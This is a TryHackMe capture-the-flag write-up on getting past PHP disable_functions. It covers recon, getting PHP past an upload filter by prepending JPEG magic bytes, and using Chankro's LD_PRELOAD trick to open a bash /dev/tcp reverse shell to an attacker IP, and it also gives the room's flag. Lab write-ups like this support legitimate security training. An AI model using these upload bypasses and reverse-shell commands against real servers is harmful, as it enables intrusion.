









# Bypass Disable Functions

| | |
|---|---|
| **Platform** | TryHackMe |
| **Link** | https://tryhackme.com/room/bypassdisablefunctions |
| **Difficulty** | Easy |
| **Category** | Web |
| **Date** | 2026-07-11 |
| **Time spent** | ~3h |

---

## Challenge Description

The target is a job board web application. The goal is to achieve remote code execution on the server despite PHP's `disable_functions` configuration blocking the most common command execution functions. The challenge introduces the technique of abusing `mail()` and `putenv()` via the [Chankro](https://github.com/TarlogicSecurity/Chankro) tool to bypass these restrictions.

---

## Process

### Reconnaissance

I started with an nmap scan to identify open services on the target.

```bash
nmap -sV 10.113.173.222
```



Two ports were open: SSH on port 22 and Apache HTTP on port 80. The web server was the primary attack surface.

---

### Enumeration

I ran gobuster to discover directories and PHP files on the web server.

```bash
gobuster dir -u http://10.113.173.222 -w /usr/share/wordlists/dirb/common.txt -x php
```


Four interesting results stood out: `cv.php`, `phpinfo.php`, `index.html`, and `uploads/`. I visited each one.

The homepage was a job board called "Ecorp Jobs".



`cv.php` was a file upload form asking users to submit a CV in image format.



`phpinfo.php` was the most valuable find. It exposed the full PHP and server configuration, including which functions were disabled.



The `disable_functions` directive listed a long set of blocked functions: `exec`, `passthru`, `shell_exec`, `system`, `proc_open`, `popen`, and all `pcntl_*` functions. Crucially, `mail()` and `putenv()` were **not** in the list.



Also critical: the `DOCUMENT_ROOT` was not the default `/var/www/html` but a hashed subdirectory — `/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db`. This exact path would be needed later for Chankro.



---

### Initial Access — Bypassing the Upload Filter

The upload form rejected anything that wasn't a real image. Testing confirmed the filter checked the actual file content, not just the extension or `Content-Type` header — this is a server-side check.

The bypass relies on **magic bytes**: the first few bytes of a file that identify its type. A JPEG always starts with `FF D8 FF`. By prepending these bytes to a PHP file, the server's content check passes because the file looks like a JPEG, while the PHP code that follows remains valid and executable.

```bash
echo -e '\xff\xd8\xff' | cat - tryhackme.php > tryhackme_final.php
```

The upload was then sent via curl, with a spoofed `Content-Type` to reinforce the deception:

```bash
curl -F "file=@tryhackme_final.php;type=image/jpeg" http://10.113.173.222/cv.php
```

The server responded with OK, confirming the file was accepted.

---

### Exploitation — Chankro

Even with the file uploaded, visiting it in `/uploads/` only returned raw bytes — Apache does not execute PHP in that directory. Standard PHP execution functions were also blocked by `disable_functions`. Two walls, both intact.

The solution was [Chankro](https://github.com/TarlogicSecurity/Chankro), a tool that exploits the combination of `putenv()` and `mail()` — neither of which was disabled — to achieve code execution via `LD_PRELOAD`.

**How it works:** Chankro generates a PHP file that uses `putenv()` to set the `LD_PRELOAD` environment variable to a custom shared library. When `mail()` is called, it spawns an external process (`sendmail`) that inherits this variable, causing it to load the malicious library before the system ones. The library then executes our payload — a reverse shell.

I navigated to the Chankro directory and created the reverse shell payload:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.143.80/4444 0>&1
```



Then I ran Chankro, passing the exact `DOCUMENT_ROOT` path found earlier so it knows where to write its files on the server:

```bash
python2 chankro.py --arch 64 --input shell.sh --output tryhackme.php \
  --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads
```

After generating `tryhackme.php`, I prepended the JPEG magic bytes and confirmed the result was recognized as image data:



I uploaded the final file with curl and started a netcat listener on port 4444. Then I visited the uploaded file in the browser to trigger execution.

```bash
nc -lvnp 4444
```



A shell connected as `www-data`.

---

### Post Exploitation

With shell access, I searched the filesystem for the flag:

```bash
find / -type f -name "flag.txt" 2>/dev/null
cd /home/s4vi
cat flag.txt
```

The flag was found at `/home/s4vi/flag.txt`.

Flag: `thm{bypass_d1sable_functions_1n_php}`

---

## Lessons Learned

**`phpinfo.php` is a high-value recon target.** It revealed both the exact `DOCUMENT_ROOT` path — essential for Chankro — and the full `disable_functions` list, confirming that `mail()` was available.

**Magic bytes bypass content-based upload filters.** Prepending `\xff\xd8\xff` makes a PHP file pass a JPEG content check. The filter only reads the start of the file, so the PHP code that follows is unaffected.

**`disable_functions` is not a complete sandbox.** Administrators often block the obvious functions but overlook others. The combination of `mail()`, `putenv()`, and `LD_PRELOAD` is a well-documented but frequently missed bypass vector.

**The upload directory's PHP execution policy matters.** A file being uploaded is not the same as it being executed. Chankro sidesteps this by using `mail()` to spawn an external process, avoiding the directory restriction entirely.

**Look at what is NOT disabled.** The absence of `mail()` from `disable_functions` was the key signal. When enumerating a PHP server, pay as much attention to what the admin forgot as to what they blocked.
